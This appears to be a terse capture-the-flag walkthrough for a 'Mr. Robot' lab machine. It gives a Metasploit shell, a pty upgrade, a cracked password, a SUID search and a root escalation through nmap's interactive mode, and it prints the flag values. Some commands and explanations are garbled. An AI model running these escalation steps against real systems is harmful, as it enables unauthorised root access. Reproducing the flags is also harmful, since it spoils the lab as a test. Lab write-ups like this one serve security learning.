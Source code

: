 		advanced options
	
		set wpcheck false
		
		exploit
		
		shell 

gain terminal access

		whoami
		
		pwd
		
		ls
		
		cd /home 
		
		ls
		
		cd /robot
		
		ls


SECOND FLAG FOUND [flag]/ username:[password ] but it's md5 encrypted
	
cracked hash website (crack station) has it cracked and listed as [abcdefghijklmnopqestuvwxyz]

switch to robot user

		su robot

you get an error stating you need to be in a terminal


Lateral Movement, New Shell, New User Owned:

		python -c 'import pty;pty.spawn("/bin/bash")'

spawns a terminal

		su robot
		
with the password [abcdefghijklmnopqestuvwxyz]

		cd /robots
		
		ls
		
		cat key-2-of-3.txt = 822c73956184f694993bede3eb39f959
		
		find / -perm -4000 -type f 2>/dev/null

finds files that being ran by their owner

		nmap --version

research time -- it's vulnerable! 

Root escallation: 


		nmap --interactive

		nmap !sudo /bin/bash

		exit

		nmap !sh

		cd /root

		ls

		cat key-3-of-3.txt

04787ddef27c3dee1ee161b21670b4e4

